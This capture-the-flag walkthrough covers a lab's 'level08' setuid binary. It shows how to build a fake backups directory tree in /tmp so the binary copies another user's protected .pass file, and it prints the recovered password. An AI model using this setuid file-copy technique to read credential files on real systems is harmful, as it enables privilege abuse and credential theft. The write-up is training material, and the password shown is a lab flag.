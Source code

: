 # level08
The program require a filename as argument `argv[1]1

```console
$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
```


below the different files
```console
.:
drwxrwx---+ 1 level09 users      60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08

./backups:
-rwxrwx---+ 1 level09 users    32 Sep  3 12:21 .log
```

## Step 1: Understand the program

1. The program tries to open `./backups/.log` file
2. The program tries to open `argv[1]` file
3. The program tries to create and open `./backups/argv[1]` file
4. Finally the program write the content of `argv[1]` file into `./backups/argv[1]` file

## Goal
Open `/home/users/level09/.pass` file and write its content into a writable file

## Step 2:
Change directory to `/tmp` to be able to create a file
```bash
cd /tmp
```

## Step 3: Let's Try:
```bash
/tmp$ /home/users/level08/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups/.log
```

We need to create a file `./backups/.log`  

```bash
/tmp$ mkdir -p backups/
/tmp$ touch backups/.log
```

## Step 4: Let's try again
```bash
/tmp$ /home/users/level08/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

We need to create a file `./backups//home/users/level09/.pass`  

```bash
/tmp$ mkdir -p backups/home/users/level09/
```

Then, it works.
```console
/tmp$ /home/users/level08/level08 /home/users/level09/.pass
/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```


> the two `//` in the path change nothing, it the same as only one `/`

